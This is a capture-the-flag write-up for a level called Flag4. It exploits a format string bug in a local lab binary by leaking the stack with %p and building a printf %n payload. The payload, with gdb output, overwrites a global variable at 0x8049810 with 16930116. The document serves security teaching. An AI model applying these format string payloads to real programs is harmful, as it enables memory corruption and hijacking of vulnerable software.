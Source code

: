 ## Flag4 README: Finding Flag4

We are now into `/home/user/level4`.

After downloading the binary with:
```sh
scp -P 4343 level4@localhost:/home/user/level4/level4 ~
```
and decompile it with [Dogbolt](https://dogbolt.org/).

In doing so, we realized there a function p which calling printf. So we understood that we need to use a `format string bug`.

What is it ? Simple, we are exploiting printf(s)

first we can find the addres of m
   0x0804848d <+54>:	mov    eax,ds:0x8049810
here he is doing result = m

Now we need to do where we are in the stack let's try to put this
AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p

AAAA.0xb7ff26b0.0xbffff6f4.0xb7fd0ff4.(nil).(nil).0xbffff6b8.0x804848d.0xbffff4b0.0x200.0xb7fd1ac0.0xb7ff37d0.0x41414141.0x2e70252e.0x252e7025.0x70252e70

So our payload is a the adress 0x41414141 so we can search the memory for when we start writing to the stack.

so we now that our adress start at the adress 0xb7ff26b0.

Now we can find what's adress this value belong


So we can put the adress we want then go to this adress by adding %x * 11 (the adress will be stored avec 11 octet see exemle after) and then %n so you can write here.
let's try tris :
(gdb) run <<< $(python -c 'print("\x10\x98\x04\x08" + "%x" * 11 + "%n")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level4/level4 <<< $(python -c 'print("\x10\x98\x04\x08" + "%x" * 11 + "%n")
/bin/bash: -c: line 0: unexpected EOF while looking for matching `''
/bin/bash: -c: line 1: syntax error: unexpected end of file
During startup program exited with code 1.
(gdb) run <<< $(python -c 'print("\x10\x98\x04\x08" + "%x" * 11 + "%n")')
Starting program: /home/user/level4/level4 <<< $(python -c 'print("\x10\x98\x04\x08" + "%x" * 11 + "%n")')
b7ff26b0bffff714b7fd0ff400bffff6d8804848dbffff4d0200b7fd1ac0b7ff37d0

Breakpoint 1, 0x080484a5 in n ()
(gdb) p *0x8049810
$4 = 64

yep we modify the value. Now to modify the value you can justt change the len of all the caratere before. But the value we need to put to the adress is 16930116 and because we dont want to write a string that long what you can do is change the last %x and just put the number before it.
16930116 - 64 = 16930052
```Bash
$(python -c 'print("\x10\x98\x04\x08" + "%x" * 10 + "%16930052x"+ "%n")')
```
and it's work !
